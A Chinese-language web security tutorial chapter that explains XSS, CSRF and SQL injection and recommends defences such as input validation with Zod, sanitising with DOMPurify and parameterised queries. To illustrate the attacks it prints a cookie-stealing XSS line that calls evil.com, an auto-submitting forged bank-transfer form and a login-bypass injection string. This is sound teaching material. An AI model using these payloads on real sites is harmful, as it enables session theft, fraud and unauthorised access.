


# 6.4 認識常見的網絡小偷——常見 Web 安全威脅與防護

## 認知重構

Web 安全威脅並不神祕。它們的本質都是**利用系統的信任機制**：瀏覽器信任網站返回的內容、服務器信任已登錄用戶的請求、數據庫信任應用傳來的查詢。攻擊者做的，就是在這些"信任鏈"中找到可以鑽的空子。



## 本節內容

| 小節 | 核心問題 | 你將學會 |
|------|----------|----------|
| 6.4.1 XSS 防護 | 惡意腳本如何被注入？ | 輸入驗證與輸出編碼 |
| 6.4.2 CSRF 防護 | 身份如何被盜用？ | Token 驗證與 SameSite |
| 6.4.3 CORS 配置 | 跨域請求怎麼控制？ | 安全的跨域策略 |
| 6.4.4 同源策略 | 瀏覽器如何保護用戶？ | 理解瀏覽器安全基礎 |
| 6.4.5 輸入驗證 | 如何防止注入攻擊？ | 參數化查詢與驗證 |

## 攻擊原理速覽

### XSS：讓你的網站執行別人的代碼

```html
<!-- 用戶在評論框輸入 -->
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>

<!-- 如果網站直接渲染，攻擊者就能偷走所有訪問者的 Cookie -->
```

### CSRF：借用你的身份做壞事

```html
<!-- evil.com 的隱藏表單 -->
<form action="https://bank.com/transfer" method="POST">
  <input name="to" value="attacker" />
  <input name="amount" value="10000" />
</form>
<script>document.forms[0].submit()</script>
<!-- 用戶已登錄 bank.com，瀏覽器自動帶上 Cookie -->
```

### SQL 注入：繞過你的驗證邏輯

```sql
-- 用戶輸入用戶名：admin' OR '1'='1
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = '...'
-- 這條 SQL 總是返回結果，繞過了密碼驗證
```

## 防禦思維模型

防禦的核心原則只有一條：**永遠不要信任用戶輸入**。



### 不同上下文的轉義規則

| 上下文 | 危險字符 | 轉義方式 |
|--------|----------|----------|
| HTML 內容 | `< > & " '` | HTML 實體編碼 |
| HTML 屬性 | `" '` | 屬性值編碼 |
| JavaScript | `' " \` | JS 轉義 |
| URL 參數 | `& = ? #` | URL 編碼 |
| SQL 查詢 | `' " ; --` | 參數化查詢 |

## 安全工具鏈

### 1. 輸入驗證：Zod

```typescript
import { z } from 'zod'

const UserInput = z.object({
  email: z.string().email(),
  name: z.string().min(1).max(100).regex(/^[a-zA-Z\s]+$/),
  age: z.number().int().min(0).max(150),
})
```

### 2. HTML 清理：DOMPurify

```typescript
import DOMPurify from 'isomorphic-dompurify'

const clean = DOMPurify.sanitize(dirtyHtml, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong'],
})
```

### 3. 參數化查詢：Prisma

```typescript
// ✅ 安全：Prisma 自動參數化
const user = await prisma.user.findFirst({
  where: { email: userInput }
})

// ❌ 危險：原始 SQL 拼接
const user = await prisma.$queryRawUnsafe(
  `SELECT * FROM users WHERE email = '${userInput}'`
)
```

## AI 協作提示

在讓 AI 生成涉及用戶輸入的代碼時，明確要求：

- "使用 Zod 驗證所有用戶輸入"
- "使用參數化查詢，不要拼接 SQL"
- "使用 DOMPurify 清理需要渲染的 HTML"
- "所有輸出到頁面的內容都要轉義"

::: warning 安全審查清單
1. [ ] 所有用戶輸入都經過驗證
2. [ ] 不直接拼接 SQL 語句
3. [ ] 不使用 `dangerouslySetInnerHTML`
4. [ ] 配置了 CSP 響應頭
5. [ ] Cookie 設置了 HttpOnly 和 Secure
:::
